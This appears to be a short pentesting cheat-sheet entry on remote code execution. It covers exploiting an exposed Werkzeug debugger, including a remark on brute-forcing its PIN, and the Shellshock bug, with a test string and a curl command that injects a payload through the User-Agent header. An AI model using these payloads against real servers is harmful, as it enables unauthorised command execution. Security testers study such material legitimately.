 ## RCE

**Werkzeug Debugger**

Find somewhere where user input can be supplied and submit the following string to cause an error:

```
strіng
```

If the target is running their application in debug mode you might be able to run commands. If you are running the target locally, you can probably brute-force the debugger PIN. The debugger PIN is always in the following format: `***-***-***`.

**Shellshock Bug**

```bash
() { :;}; echo vulnerable
```

```zsh
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```